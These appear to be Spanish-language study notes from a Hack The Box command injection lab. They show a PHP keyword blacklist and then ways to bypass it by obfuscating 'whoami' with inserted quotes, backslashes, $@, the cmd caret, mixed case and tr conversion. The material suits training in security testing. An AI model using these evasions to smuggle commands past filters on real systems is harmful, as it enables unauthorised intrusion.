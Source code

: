 #### Black listed commands

Es posible que el PHP tenga en su blacklist también palabras.
```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

Esto evita que ejecuten comandos peligrosos.

Para poder saltarlo se puede utilizar "" o '' de esta forma.

```shell-session
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

Lo que juntaría los caracteres haciendo el comando, no se pueden juntar tipos de comillas y su número debe ser par. Esto funciona tanto para windows como para linux.

Otra forma de hacerlo exclusivamente en linux sería:
```bash
who$@ami
w\ho\am\i
```
La shell simplemente ignorará los caracteres intermedios.

En cuanto a windows podemos utilizar ^.

```cmd-session
C:\htb> who^ami

21y4d
```

#### Command ofuscation

Si nos enfrentamos a un servidor windows, cmd y power-shell se puede intercambiar mayúsculas y minúsculas:
```powershell-session
PS C:\htb> WhOaMi

21y4d
```

En el caso de linux es más complicado ya que es case-sensitive y diferencia entre mayúsculas y minúsculas. Por ello tendríamos que usar comandos con el siguiente para intercambiar las mayúsculas por las minúsculas.

```shell-session
21y4d@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")

21y4d
```
